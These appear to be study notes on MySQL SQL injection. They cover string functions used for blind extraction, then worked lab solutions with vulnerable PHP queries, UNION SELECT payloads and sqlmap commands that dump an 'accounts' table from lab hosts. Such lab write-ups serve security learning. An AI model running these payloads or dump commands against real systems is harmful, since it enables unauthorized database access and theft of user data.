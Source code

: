 MID is a synonym of SUBSTRING, which is a synonym of SUBSTR:
```bash
[SUBSTR|MID|SUBSTRING]('HELLO' FROM 1 FOR 1)
```

Alternatively, functions **LEFT** and **RIGHT**

→ http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_left

→ http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_right

```bash
[LEFT|RIGHT]('HELLO',2) //HE or LO
```

More options functions like **RPAD** and **LPAD**:
```bash
[LPAD,RPAD]('HELLO',6,'?') //?HELLO or HELLO?
[LPAD,RPAD]('HELLO',1,'?') //H
...
[LPAD,RPAD]('HELLO',5,'?') //HELLO 
```


## Labs
Note: Different sqlmap versions may require different options/flags. For example lab 4 may be solved using the below:
```bash
sqlmap -u 'http://192.222.62.2/upload.php?lab=4&payload=' -p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 --banner --flush-session --regexp='99\sviews'  --prefix="01.jpg'"
```



### 1 - ENTRY LEVEL
```bash
# Query:
$query = "SELECT views from attachments where filename='$filename'";


# PoC
http://hacker.site/2nd/view.php?payload=%27%20union%20select%20@@version;%20--%20-

# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/view.php?payload=a' --technique=U --suffix='; -- -' --banner
	
./sqlmap.py -u 'http://hacker.site/2nd/view.php?payload=a' --technique=U --suffix='; -- -' -D selfie4you01 -T accounts --dump --no-cast
```


### 2 - UNION SELECT
- no filters

```bash
Filters: none

Query:
$query = "SELECT views FROM attachments where filename='$entry';";


# PoC
http://hacker.site/2nd/upload.php?lab=2&payload='+union+select+@@version;%23

# SQLMAP
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=2&payload=_" -p payload --technique=U --suffix=';#' --union-col=1 --dbms MySQL --banner --no-cast

```